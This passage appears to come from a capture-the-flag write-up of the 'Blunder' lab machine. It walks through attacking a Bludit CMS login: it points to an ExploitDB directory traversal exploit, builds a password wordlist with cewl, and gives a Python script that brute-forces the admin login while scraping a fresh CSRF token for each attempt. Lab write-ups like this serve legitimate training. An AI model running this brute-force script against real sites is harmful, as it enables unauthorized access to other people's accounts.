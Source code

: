 Here, we don't find any useful hint but can see that this login page uses [CSRF Token](https://portswigger.net/web-security/csrf/tokens) which are used as method to avoid login bruteforce attacks. With every new request a new token is generated and this needs to be submitted along with login credentials while performing a login. So, if we plan to bruteforce the credentials we need to figure out a method that along with the changing credentials we are sending the correct CRSF token with every login attempt else we won't be able to find the correct login credentials.

### Initial Foothold

From the login page, we get one hint and that is the term `BLUDIT`. We can try to look for it on google to see if it some known service and even try to look for some associated vulnerability.

The first result from google that we get is [`Bludit Directory Traversal `](https://www.exploit-db.com/exploits/48701) exploit on ExploitDB. We can download the code, make necessary changes and try to it. But before that we can see that to execute the script properly we need a username and password along with the target URL.

![dirtrav_issue](./.images/dirtrav_issue.png)

We do have one suspected username `fergus` but no associated password. Even in the articles we don't find any suspected password and there are no other hidden pages as well. We can try to get a list of words from the webpage using `cewl` and then try to use those words as password for logging in. We can run `cewl` as:

```
┌─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $cewl http://10.10.10.191:80 -w words
```

This will create a list of words obtained from the webpage. With the help of `tee`, we will get the output displayed on the console and the same would get written in the file `words`. Now, we can use this list along with the username `fergus` to bruteforce the login. But the issue is CSRF token. And to avoid that we need to make a python script which will read the token and pass is in the subsequent request along with the updated password value.

```
import requests
import re

url='http://10.10.10.191'
path = '/admin/login'
username = 'fergus'

wordlist = open('words', 'r')
words = wordlist.readlines()

for password in words:
	session = requests.session()
	login_page = session.get(url+path)
	csrf_token = re.search('name="tokenCSRF" value="(.*)"', login_page.text).group(1)
	print ("Trying Password: ", password)
	print ("CSRF Token:", csrf_token) 

	data = {
		'tokenCSRF': csrf_token,
		'username': username,
		'password': password.strip(),
		'save':''
	}

	login_return = session.post(url+path, data = data, allow_redirects = False)
```